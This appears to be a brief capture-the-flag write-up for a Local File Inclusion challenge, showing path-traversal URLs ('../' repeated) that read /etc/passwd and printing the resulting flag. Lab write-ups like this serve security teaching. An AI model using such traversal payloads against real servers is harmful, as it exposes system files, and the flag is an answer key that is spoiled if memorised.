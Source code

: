 
[Local File Inclusion Vulnerability](https://youtu.be/AALacSN2SRw?list=PLqM63j87R5p77_vK-eL9eFbhz6BJ1Av7r)

u get message indications with each backtrack (../)

`http://IP/index.php?page=../../../../../../../` ==> pops "You can DO it !!!  :]"


`http://IP/index.php?page=../../../../../../../etc/passwd`

Congratulaton!! The flag is : `b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`


